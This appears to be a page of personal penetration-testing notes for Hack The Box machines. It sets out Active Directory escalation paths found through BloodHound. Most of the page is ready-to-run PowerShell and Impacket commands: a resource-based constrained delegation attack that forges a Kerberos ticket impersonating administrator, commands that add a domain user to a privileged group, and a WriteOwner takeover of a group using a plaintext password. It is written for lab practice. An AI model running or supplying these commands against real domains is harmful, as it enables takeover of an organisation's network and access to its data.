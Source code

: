 #### GenericAll Exploitation & Using Kerberos Ticket

I discovered this path in BloodHound.

```bash
. .\Powermad.ps1
. .\PowerView.ps1
New-MachineAccount -MachineAccount attackersystem -Password $(ConvertTo-SecureString 'Summer2018!' -AsPlainText -Force)
$ComputerSid = Get-DomainComputer attackersystem -Properties objectsid | Select -Expand objectsid
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$($ComputerSid))"
$SDBytes = New-Object byte[] ($SD.BinaryLength)
$SD.GetBinaryForm($SDBytes, 0)
Get-DomainComputer attackersystem | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes}
.\Rubeus.exe hash /password:Summer2018!
.\Rubeus.exe s4u /user:attackersystem$ /rc4:EF266C6B963C0BB683941032008AD47F /impersonateuser:administrator /msdsspn:cifs/attackersystem.support.htb /ptt

# Copy the Base 64 ticket output and transfer it to Windows (because I'm in evil-winrm and using it within Windows isn't working). Remove all spaces in vi with '%s/ //g', decode the base64, then use ticketConverter.py to convert the ticket to a .ccache file that we can use to login as adminsitrator.
base64 -d ticket.kirbi.b64 > ticket.kirbi
ticketConverter.py ticket.kirbi ticket.ccache
KRB5CCNAME=ticket.ccache psexec.py support.htb/administrator@dc.support.htb -k -no-pass

# You could also use smbexec.py, wmiexec.py, atexec.py, dcomexec.py from Linux to authenticate

# On Windows
Once you get ticket, to access drive as admin.
>net use O: \\dc.help.htb\C$
>O:
```

Alternatively:

```bash
net user hacker Hacker123! /add /domain
# Target Group
net group "EXCHANGE WINDOWS PERMISSIONS" /add hacker
```

#### WriteOwner Exploitation

I discovered this path in BloodHound.

```bash
# The user's password that you're exploiting with
$SecPassword = ConvertTo-SecureString 'JDg0dd1s@d0p3cr3@t0r' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('streamio.htb\JDGodd', $SecPassword)
# TargetIdentity is the group that you're targeting
Set-DomainObjectOwner -Identity "Core Staff" -OwnerIdentity JDGodd -Credential $Cred
Add-DomainObjectAcl -Credential $Cred -TargetIdentity "Core Staff" -PrincipalIdentity JDGodd
#Add-DomainObjectAcl -Credential $Cred -TargetIdentity "Core Staff" -Rights WriteMembers
# Members is who you want to add, user that you have a shell with
Add-DomainGroupMember -Identity 'Core Staff' -Members 'nikk37' -Credential $Cred
Get-DomainGroupMember -Identity 'Core Staff'
#Remove-DomainObjectAcl - Credential $cred -TargetIdentity "Domain Admins" -Rights WriteMembers
```
